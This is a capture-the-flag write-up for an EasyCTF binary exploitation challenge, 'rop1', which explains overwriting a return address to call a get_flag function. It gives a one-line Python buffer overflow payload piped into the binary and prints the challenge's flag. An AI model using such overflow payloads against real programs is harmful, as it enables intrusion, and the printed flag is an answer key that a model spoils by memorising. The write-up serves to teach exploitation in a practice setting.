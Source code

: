 # rop1

**Category:** Binary Exploitation
**Points:** 120
**Solves:** 374
**Description:**

Go to `/problems/rop1` on the shell server and tell me whats in flag.txt.

[File](rop1)

## Write-up

![screen_0_rop1](screen_0_rop1.png)
![screen_1_rop1](screen_1_rop1.png)
![screen_2_rop1](screen_2_rop1.png)

So we need just rewrtite return addres to get_flag(+8 for saved registers and -8 for text "EasyPWN\x00", I did it for beauty ;))

```
python -c 'print "EasyPWN\x00" + "A"*(64+8-8) + "\x46\x06\x40\x00\x00\x00\x00\x00"' | ./rop1
```

![screen_3_rop1](screen_3_rop1.png)

Flag is: **easyctf{r0ps_and_h0ps}**
